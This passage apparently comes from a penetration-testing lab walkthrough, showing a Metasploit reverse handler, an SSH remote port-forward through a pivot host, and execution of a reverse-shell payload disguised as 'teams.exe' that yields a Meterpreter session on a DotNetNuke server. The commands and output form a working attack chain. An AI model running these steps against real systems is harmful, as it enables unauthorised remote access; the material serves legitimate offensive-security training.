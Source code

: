 lport =&gt; 7000
[msf](Jobs:0 Agents:0) exploit(multi/handler) &gt;&gt; run

[*] Started HTTPS reverse handler on https://0.0.0.0:7000
</code></pre>
<p>Next, we need to upload the <code>teams.exe</code> reverse shell payload to the <code>DEV01</code> target host. We can SCP it up to <code>dmz01</code>, start a Python web server on that host and then download the file. Alternatively, we can use the DNN file manager to upload the file as we did previously. With the payload on the target, we need to set up <code>SSH remote port forwarding</code> to forward the dmz01 pivot box port <code>443</code> to the Metasploit listener port <code>7000</code>. The <code>R</code> flag tells the pivot host to listen on port <code>443</code> and forward all incoming traffic to this port to our Metasploit listener at <code>0.0.0.0:7000</code> configured on our attack host.</p>
<pre><code class="language-shell-session">[!bash!]$ ssh -i dmz01_key -R 172.16.8.120:443:0.0.0.0:7000 <a class="__cf_email__" data-cfemail="10627f7f645021203e2122293e2220233e212121" href="/cdn-cgi/l/email-protection">[email protected]</a> -vN

OpenSSH_8.4p1 Debian-5, OpenSSL 1.1.1n  15 Mar 2022
debug1: Reading configuration data /etc/ssh/ssh_config
debug1: /etc/ssh/ssh_config line 19: include /etc/ssh/ssh_config.d/*.conf matched no files
debug1: /etc/ssh/ssh_config line 21: Applying options for *
debug1: Connecting to 10.129.203.111 [10.129.203.111] port 22.

&lt;SNIP&gt;

debug1: Authentication succeeded (publickey).
Authenticated to 10.129.203.111 ([10.129.203.111]:22).
debug1: Remote connections from 172.16.8.120:443 forwarded to local address 0.0.0.0:7000
debug1: Requesting <a class="__cf_email__" data-cfemail="6d03024000021f08401e081e1e0402031e2d021d08031e1e05430e0200" href="/cdn-cgi/l/email-protection">[email protected]</a>
debug1: Entering interactive session.
debug1: pledge: network
debug1: client_input_global_request: rtype <a class="__cf_email__" data-cfemail="6e06011d1a050b171d435e5e2e011e0b001d1d06400d0103" href="/cdn-cgi/l/email-protection">[email protected]</a> want_reply 0
debug1: Remote: /root/.ssh/authorized_keys:1: key options: agent-forwarding port-forwarding pty user-rc x11-forwarding
debug1: Remote: /root/.ssh/authorized_keys:1: key options: agent-forwarding port-forwarding pty user-rc x11-forwarding
debug1: Remote: Forwarding listen address "172.16.8.120" overridden by server GatewayPorts
debug1: remote forward success for: listen 172.16.8.120:443, connect 0.0.0.0:7000
</code></pre>
<p>Next, execute the teams.exe payload from the <code>DEV01</code> host, and if all goes to plan, we'll get a connection back.</p>
<pre><code class="language-shell-session">[msf](Jobs:0 Agents:0) exploit(multi/handler) &gt;&gt; exploit

[*] Started reverse TCP handler on 0.0.0.0:7000 
[*] Sending stage (175174 bytes) to 127.0.0.1
[*] Meterpreter session 2 opened (127.0.0.1:7000 -&gt; 127.0.0.1:51146 ) at 2022-06-22 12:21:25 -0400

(Meterpreter 2)(c:\windows\system32\inetsrv) &gt; getuid
Server username: IIS APPPOOL\DotNetNukeAppPool
</code></pre>